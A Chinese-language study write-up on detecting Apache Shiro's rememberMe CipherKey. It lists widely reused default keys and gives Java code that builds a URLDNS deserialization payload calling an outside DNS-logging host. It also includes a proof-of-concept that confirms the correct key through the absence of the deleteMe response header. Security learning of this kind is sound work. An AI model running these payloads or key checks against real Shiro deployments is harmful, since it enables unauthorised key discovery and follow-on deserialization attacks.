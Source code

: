 # Shiro之key的检测

## 前言

在说 key 的检测之前，先聊聊现在工具普遍用到的 key 吧。相信在了解 shiro 之前，大家都曾用过网上公开的 shiro 利用工具，其中对于 key 的检测，普遍采用的字典的形式进行爆破，这里列举几个在字典中存在的 key：
```
kPH+bIxk5D2deZiIxcaaaA==
2AvVhdsgUs0FSA3SDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
4AvVhmFLUs0KTA3Kprsdag==
5aaC5qKm5oqA5pyvAAAAAA==
6ZmI6I2j5Y+R5aSn5ZOlAA==
......
```

第一个大家应该都眼熟了，是 1.2.4 版本的默认 CipherKey，那其他 CipherKey 是哪里来的呢？网上有几种观点：

- 一个框架配置了某一个 Shiro CipherKey，大家写的项目都用到了该框架；
- 大家的项目互相抄来抄去，对于 CipherKey 并未修改；
- 见到其他项目使用该 CipherKey，也沿袭着使用了；
- ......

我们尝试在 github 上搜索其中一个 CipherKey 试试
![image-20221023221126506](images/image-20221023221126506.png)

发现大部分项目都是使用了同一个 CipherKey，缘，妙不可言~

言归正传，说回 Key 的检测，第一想法都是用 URLDNS 这条链子来进行检测。但实战环境中，很多时候遇上的主机都是不出网，这种情况如何解决呢？

L1NK3R 师傅提出的只依赖于 Shiro 本身，在 CipherKey 检测正确时不返回 deleteMe，错误情况时返回 deleteMe 的方法，解决了上述不出网的情况。下面就逐个进行学习一下。

## 基于URLDNS的检测方法

通过前面的学习，听到该方法名字应该都已经懂如何构造了，先通过学习的 URLDNS 链生成文件
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://851bdcd2.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url, 666);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

}
```

再通过 Shiro 的`AesCipherService()`方法对前面生成的文件进行 AES 加密得到 payload
```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.InputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        String path = "1.txt";
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(path), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(String path) throws Exception{
        InputStream inputStream = new FileInputStream(path);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;

    }
}
```

添加到 rememberMe 字段发送 payload
![image-20221024055133461](images/image-20221024055133461.png)

最后执行反序列化流程，执行 URLDNS 链，发起 DNS 请求，打开平台看到已经收到了请求数据。
![image-20221024055148343](images/image-20221024055148343.png)

## 基于Shiro本身的检测方法

经过测试我们可以看到，在登录后携带正常的 rememberMe 发送请求并不会在返回包中存在`rememberMe=deleteMe`，但我们使用正确或者错误的 CipherKey 加密构造的 rememberMe 在发送请求后，都会在返回包中看到`rememberMe=deleteMe`的响应头。

那么如果我们能够使正确的 CipherKey 加密的 payload 执行后不回显`deleteMe`，错误的 CipherKey 加密的则回显`deleteMe`，那就能达到检测 CipherKey 是否正确的目的。

接下来的任务就是看看 CipherKey 正确和错误的情况下，流程是怎么走的，进行对比和分析。

### 密钥错误

我们把断点打在最后的`AbstractRememberMeManager#deserialize()`方法处，然后用一个错误的 CipherKey 加密 URLDNS 的链子，发送请求
![image-20221024045034551](images/image-20221024045034551.png)

接在跟进`decrypt()`方法直到`crypt()`方法
![image-20221024045303583](images/image-20221024045303583.png)

在这里开始因为 CipherKey 错误抛出异常，在`getRememberedPrincipals()`方法中被捕获异常
![image-20221024045432663](images/image-20221024045432663.png)

这里调用到了`onRememberedPrincipalFailure()`方法，跟进该方法
![image-20221024045929862](images/image-20221024045929862.png)

接着调用了`forgetIdentity()`方法
![image-20221024050022401](images/image-20221024050022401.png)

继续跟进`forgetIdentity(request, response)`方法
![image-20221024050046499](images/image-20221024050046499.png)

调用到了`removeFrom()`方法，继续跟进`removeFrom()`方法
![image-20221024050136826](images/image-20221024050136826.png)

可以看到，在该方法中定义了`deleteMe`字段并添加到响应头中

### 密钥正确

因为 CipherKey 正确，所以这里进入了`doFinal()`方法，不会抛出异常
![image-20221024050454922](images/image-20221024050454922.png)

然后一层层返回，最后到了 `return this.deserialize()`方法
![image-20221024050745000](images/image-20221024050745000.png)

跟进`deserialize()`方法
![image-20221024050817471](images/image-20221024050817471.png)

这里可以看到最后套了一层`(PrincipalCollection)`将返回的类转换成`PrincipalCollection`类，但转换失败，被`getRememberedPrincipals()`捕获了异常
![image-20221024051026334](images/image-20221024051026334.png)

接下来就是跟前面一样进入到了`removeFrom()`方法
![image-20221024051128859](images/image-20221024051128859.png)

至此，弄懂了 CipherKey 无论正确与否，进行加密的链子都会返回`deleteMe`的原因。

### 编写POC

既然在 CipherKey 正确情况下，是因为类型强转导致的进入`removeFrom()`方法，那么我们只要将序列化的对象继承于`PrincipalCollection`类即可，那就找一下`PrincipalCollection`类的实现类![image-20221024051738473](images/image-20221024051738473.png)

这里选择`SimplePrincipalCollection`类或者`SimplePrincipalMap`类都可以

```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.subject.SimplePrincipalCollection;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(simplePrincipalCollection), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(Object obj) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        objectOutputStream.flush();
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }
}
```

密钥✅的情况：
![image-20221024055251820](images/image-20221024055251820.png)

密钥❎的情况：
![image-20221024055335648](images/image-20221024055335648.png)
